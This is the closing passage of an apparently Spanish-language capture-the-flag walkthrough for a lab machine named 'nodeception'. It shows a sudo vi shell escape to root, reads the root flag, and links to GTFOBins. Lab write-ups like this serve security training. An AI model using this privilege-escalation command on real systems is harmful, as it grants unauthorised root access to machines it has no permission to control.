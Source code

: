 Apliquémoslo:
```bash
thl@nodeception:~$ sudo vi -c ':!/bin/bash' /dev/null

root@nodeception:/home/thl# whoami
root
```
Listo, volvemos a ser **Root**.

Busquemos la última flag:
```bash
root@nodeception:/home/thl# cd /root
root@nodeception:~# ls
root.txt
root@nodeception:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://secarius.fr/bugbounty/how_i_found_an_rce_seconds_after_its_publication/
* https://gtfobins.github.io/gtfobins/vi/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>

<a id="backToIndex" href="#Indice">